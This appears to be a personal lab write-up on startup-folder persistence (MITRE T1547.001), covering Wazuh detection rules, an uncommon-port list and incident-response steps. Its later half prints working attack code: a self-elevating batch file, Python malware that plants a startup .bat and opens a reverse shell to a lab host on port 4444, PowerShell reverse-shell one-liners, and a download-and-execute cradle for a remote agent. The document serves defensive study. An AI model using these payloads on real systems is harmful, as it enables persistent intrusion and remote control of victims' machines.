 ```yaml
---
{"dg-publish":true,"permalink":"/mitreattck-analysis/persistence-t1547-001/persistence-t1547-001/","tags":["mitre"]}
---
```


### Summary
---
### Initials
---
- **Atomic Red Team ID**: T1547.001 - Persistence
- **Description**: Using various techniques to maintain access across system restarts, change credentials or any other interruptions, in this experiment a malware that adds a `.bat` file on the public User's startup folder that creates a reverse shell.
- **Challenges Encountered & Solution*:
	- It requires running the script with administrative privilege
## Analysis
---
File is added in user's public startup directory, one of the symptoms of a persistence, there are many ways to establish persistence one of the ways is modifying the registry or adding files in the task scheduler:

![](/img/user/images/Pasted image 20240811215835.png)

However the reverse shell or network connection but the command such as `whoami` is detected as well as:

![](/img/user/images/Pasted image 20240811215850.png)

### WAZUH. rule creation
---
In a normal environment, our clients usually connect to _well-known ports_ such as port 21, 80, 443 but rarely on something like 4444 which is the default port used in metasploit for reverse shells.

We can create blacklist or whitelist depending on the fields extracted in the decoding phase by using Wazuh's Constant Database (CDB).

1. Create a file name `/var/ossec/etc/lists/common-ports` at the manager.
2. Then input the most well-known ports (this should be tailored around the environment for example if organization never uses ssh then remove port 21 from the list) follow the format

```
22:
80:
```

3. Change the permission so Wazuh can detect this file:

```bash
chown wazuh:wazuh common-ports
chmod 660 common-ports
```

4. Navigate and open a text editor to `/var/ossec/etc/ossec.conf` and find the `<ruleset>` section and add the following:

```XML
<list>etc/lists/common-ports</list>
```

Should go something like this:

![](/img/user/images/Pasted image 20240811215904.png)
7. Add the rules to detect the attack:

```XML
<!-- Abnormal Destination Port Detected -->  
<rule id="102503" level="10">  
  <if_group>sysmon_event3</if_group>  
  <list field="win.eventdata.destinationPort" lookup="not_address_match_key">etc/lists/common-ports</list>  
  <description>Sysmon - Event 3: Network connection to Uncommon Port by $(win.eventdata.image)</description>  
  <group>sysmon_event3,</group>  
</rule>
```

Should look something like this:

![](/img/user/images/Pasted image 20240811215909.png)
## Incident Response
---
- **Incident identification criteria** - file added to startup folder for either the public or users directory.
- **Investigation steps** - strange process and cmd window popup at start up
- **Containment actions** - disconnect the compromised host
- **Eradication procedures** - remove the file from the startup folder and it's parent image.
- **Recovery steps** - Implemented File Integrity Monitoring with Wazuh to detect changes at start up folders.

```C
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Run file as administrator:

```C
@echo off

:: Check if the script is running as admin

net session >nul 2>&1

if %errorLevel% neq 0 (

    echo Requesting elevation...

    powershell.exe Start-Process "%~0" -Verb RunAs

    exit /b

)

:: Run the Python script

python "C:\Users\lauraArseid\Documents\evil.py"
```

The Malware:

```python
import sys
import os.path
import os,socket,subprocess,threading;


# Get the python path:
python_path = sys.executable

# Get the current directory of where this python executing
current_file_path = path = os.path.abspath(os.path.dirname(__file__))
current_file_path_name = path = os.path.abspath(__file__)

path = 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat'

check_file = os.path.isfile(path)

# Revere shgell
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

if not check_file:
    # Write a .bat script to execute on user login
    with open("C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat", "a") as bad_bat:
        bad_bat.write("@echo off\n")
        bad_bat.write(f'python "{current_file_path_name}"')
else:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.200.200.7",4444))

    p=subprocess.Popen(["sh"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

    s2p_thread = threading.Thread(target=s2p, args=[s, p])
    s2p_thread.daemon = True
    s2p_thread.start()

    p2s_thread = threading.Thread(target=p2s, args=[s, p])
    p2s_thread.daemon = True
    p2s_thread.start()

    try:
        p.wait()
    except KeyboardInterrupt:
        s.close()
```

The reverse shell used:

```
$LHOST = "10.200.200.7"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.200.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


```Powershell
$server="http://10.200.200.7:8000";  
$url="$server/test.txt";  
$wc=New-Object System.Net.WebClient;  
$wc.Headers.add("platform","windows");  
$wc.Headers.add("file","sandcat.go");  
$data=$wc.DownloadData($url);  
$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");  
get-process | ? {$_.modules.filename -like "C:\Users\Public\$name.exe"} | stop-process -f;  
rm -force "C:\Users\Public\$name.exe" -ea ignore;  
[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data) | Out-Null;  
Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```


```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
    <!-- Rules for Windows systems -->
    <rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
  <rule id="100200" level="7">
    <if_sid>550</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File modified in user startup directory.</description>
  </rule>
  <rule id="100201" level="7">
    <if_sid>554</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File added to user startup directory.</description>
  </rule>
  
<rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

![](/img/user/images/Pasted image 20240811215918.png)


